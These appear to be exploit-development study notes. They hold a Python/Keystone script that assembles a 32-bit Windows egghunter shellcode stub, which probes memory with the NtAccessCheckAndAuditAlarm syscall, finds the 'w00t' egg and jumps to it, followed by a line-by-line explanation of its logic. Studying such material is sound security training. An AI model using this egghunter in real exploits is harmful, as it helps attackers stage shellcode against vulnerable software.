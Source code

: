 ```
from keystone import *

CODE = (
		# We use the edx register as a memory page counter
"							 " 
"	loop_inc_page:			 "
		# Go to the last address in the memory page
"		or dx, 0x0fff		;" 
"	loop_inc_one:			 "
		# Increase the memory counter by one
"		inc edx				;"
"	loop_check:				 "
		# Save the edx register which holds our memory 
		# address on the stack
"		push edx			;"
		# Push the system call number
"		push 0x2 			;" 
		# Initialize the call to NtAccessCheckAndAuditAlarm
"		pop eax				;" 
		# Perform the system call
"		int 0x2e			;" 
		# Check for access violation, 0xc0000005 
		# (ACCESS_VIOLATION)
"		cmp al,05			;" 
		# Restore the edx register to check later 
		# for our egg
"		pop edx				;" 
"	loop_check_valid:		 "
		# If access violation encountered, go to n
		# ext page
"		je loop_inc_page	;" 
"	is_egg:					 "
		# Load egg (w00t in this example) into 
		# the eax register
"		mov eax, 0x74303077	;" 
		# Initializes pointer with current checked 
		# address 
"		mov edi, edx		;" 
		# Compare eax with doubleword at edi and 
		# set status flags
"		scasd				;" 
		# No match, we will increase our memory 
		# counter by one
"		jnz loop_inc_one	;" 
		# First part of the egg detected, check for 
		# the second part
"		scasd				;" 
		# No match, we found just a location 
		# with half an egg
"		jnz loop_inc_one	;" 
"	matched:				 "
		# The edi register points to the first 
		# byte of our buffer, we can jump to it
"		jmp edi				;" 
)

# Initialize engine in 32bit mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
egghunter = ""
for dec in encoding: 
  egghunter += "\\x{0:02x}".format(int(dec)).rstrip("\n")
  
print("egghunter = (\"" + egghunter + "\")")
```

- loop_inc_page + loop_inc_one: avoids null bytes and goes to last memory address of a page, then increments by one to go to the first of the next page
- loop_check: pushes values for the system call and compares return value to access violation value
- loop_check_valid: if those values matched (address is invalid), jump back up to get next memory page
- is_egg: if they didn't match (address is valid), load first DWORD of egg and compare with the address' value. `scasd` compares the value in EAX with the first DWORD pointed to by EDI then increments EDI by DWORD. If no match, jump back up to increment memory address, else move to compare the second word (assumes repeated DWORD egg). If no match, jump back up to increment.
- matched: if this is reached, the egg matched, jump EIP to EDI
> EDX is used just as a generic register to keep track of what memory location we are scanning. In this case it initially starts at a high address but with be incremented enough as to reset back to 0 and scan from the top of memory